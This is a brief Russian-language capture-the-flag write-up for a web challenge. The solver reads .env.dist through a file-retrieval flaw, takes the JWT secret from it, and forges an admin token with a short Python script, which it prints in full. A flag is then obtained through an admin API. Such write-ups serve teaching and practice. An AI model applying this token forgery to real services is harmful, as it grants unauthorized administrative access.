








#hard #web #JWT #FS

#### Решение
- Через уязвимость в получение файлов достаем .env.dist
- Из .env.dist достаем SECRET_KEY и на его основе генерим JWT с админсским доступом
- Под админом дергаем апиху на получение флага

#### Код генерации JWT

```python
from jose import jwt

SECRET_KEY = "713c50ce0a4902af7571debb36dd14abd95a45c9104b299b1f91afd52f356e47"
ALGORITHM = "HS256"

payload = {
"exp": "1745341191",
"iat": "1745254791",
"user_id": "faf49c98-0cab-4af4-b917-b0c96a710938",
"username": "admin_kek",
"is_admin": True,
}

token = jwt.encode(payload, SECRET_KEY, algorithm=ALGORITHM)
print(token)
```

#### Скрины




















